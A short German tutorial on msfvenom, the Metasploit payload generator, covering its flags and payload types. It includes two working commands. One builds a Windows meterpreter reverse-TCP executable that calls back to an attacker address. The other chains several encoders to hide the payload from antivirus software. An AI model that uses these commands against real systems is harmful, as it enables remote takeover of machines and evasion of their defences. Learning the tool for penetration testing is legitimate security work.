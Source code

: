 
Msfvenom ist ein eigenständiges Payload-Generierungs-Tool, das die alten Tools msfpayload und msfencode kombiniert. Es wurde als Nachfolger dieser Tools entwickelt und bietet eine vereinte, schnelle und standardisierte Kommandozeilenschnittstelle. Mit Msfvenom können Payloads für verschiedene Plattformen wie Cisco, Android, macOS, Solaris, Firefox und Windows generiert werden.

Um eine Payload zu generieren, müssen zwei Flags bereitgestellt werden: -p (Payload auswählen) und -f (Ausgabeformat).4 Msfvenom unterstützt eine Vielzahl von Optionen, darunter -l (Liste aller Module), -e (Encoder auswählen), -a (Architektur festlegen), -b (Böse Zeichen vermeiden), -i (Anzahl der Iterationen für das Encoding festlegen), -c (weitere Win32-Shellcode-Datei hinzufügen), -x (benutzerdefiniertes Executable-Datei als Vorlage verwenden), -k (Verhalten der Vorlage beibehalten und Payload als neuer Thread injizieren), und -o (Payload speichern).

Einige typische Payloads sind der Bind-Shell, der Reverse-TCP-Payload und der Inline-Payload. Der Reverse-TCP-Payload verlangt, dass der Angreifer zuerst einen Listener einrichtet, während das Ziel eine Verbindung zum Listener herstellt.

Msfvenom kann auch mehrere Encoder auf eine Payload anwenden, was dazu beitragen kann, das Payload zu verschleiern und es vor Antivirus-Programmen zu schützen.

Beispielsweise kann eine Payload mit Msfvenom wie folgt generiert werden:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Angreifer-IP] LPORT=4444 -f exe -o /tmp/my_payload.exe
```

Um ein Encoder zu verwenden, kann der -e Flag hinzugefügt werden, und um bestimmte Zeichen zu vermeiden, kann der -b Flag verwendet werden.

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

Diese Befehle zeigen, wie Msfvenom verwendet wird, um eine Payload zu generieren, zu encode und in eine benutzerdefinierte Executable-Datei zu konvertieren.

Msfvenom ist ein mächtiges Werkzeug, das für die Erstellung von Angriffspaketen und Payloads verwendet wird, um verschiedene Ziele zu attackieren.


https://www.security-insider.de/metasploit-macht-jeden-zum-hacker-a-700690/

https://blog.knoldus.com/what-is-msfvenom-how-to-use-it/

